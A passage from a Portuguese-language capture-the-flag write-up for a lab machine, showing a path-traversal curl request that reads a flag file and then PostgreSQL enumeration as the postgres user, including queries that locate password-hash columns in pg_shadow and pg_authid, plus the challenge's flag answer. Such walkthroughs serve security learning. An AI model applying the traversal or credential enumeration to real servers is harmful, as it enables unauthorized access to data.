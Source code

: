 {{< bs/toggle-item "local.txt" >}}
{{< highlight bash >}}
┌──(kali㉿kali)-[~]
└─$ curl "http://10.0.1.227/tshirt../local.txt"
Extreme{dea108580947e9d18e4f4129550b669c}
{{< /highlight >}}
  {{< /bs/toggle-item >}}
{{< /bs/toggle >}}

Com essa wordlist conseguimos encontrar o arquivo. Com isso, identificamos a resposta do **Desafio 3**: `Extreme{dea108580947e9d18e4f4129550b669c}`.

## 2.11. Escalação de privilégios e última flag

Agora, falta a última flag, que é a `proof.txt`. Eu pensei em algumas possibilidades dessa flag estar em algum lugar no banco, já que encontramos o login.

De posse do acesso ao banco, tentei explorar fazendo algumas consultas, mas não encontrei nada...

```bash
┌──(kali㉿kali)-[~]
└─$ psql -h 10.0.0.213 -U postgres -d tshirts

Password for user postgres: 
psql (17.5 (Debian 17.5-1), server 14.8 (Debian 14.8-1.pgdg120+1))
Type "help" for help.

tshirts=# \dt
Did not find any relations.
tshirts=# SELECT * FROM users;
ERROR:  relation "users" does not exist
LINE 1: SELECT * FROM users;
                      ^
tshirts=# \dn
  List of schemas
  Name  |  Owner   
--------+----------
 public | postgres
(1 row)

tshirts=# SELECT schemaname, tablename
FROM pg_tables
WHERE schemaname NOT IN ('pg_catalog', 'information_schema');
 schemaname | tablename 
------------+-----------
(0 rows)

tshirts=# SELECT table_schema, table_name, column_name
FROM information_schema.columns
WHERE column_name ILIKE '%flag%'
   OR column_name ILIKE '%user%'
   OR column_name ILIKE '%pass%';
    table_schema    |           table_name            |        column_name         
--------------------+---------------------------------+----------------------------
 information_schema | _pg_user_mappings               | umuser
 pg_catalog         | pg_user_mapping                 | umuser
 pg_catalog         | pg_roles                        | rolbypassrls
 pg_catalog         | pg_shadow                       | userepl
 pg_catalog         | pg_shadow                       | usebypassrls
 pg_catalog         | pg_user                         | userepl
 pg_catalog         | pg_user                         | usebypassrls
 pg_catalog         | pg_available_extension_versions | superuser
 pg_catalog         | pg_user_mappings                | umuser
 pg_catalog         | pg_authid                       | rolbypassrls
 pg_catalog         | pg_user                         | passwd
```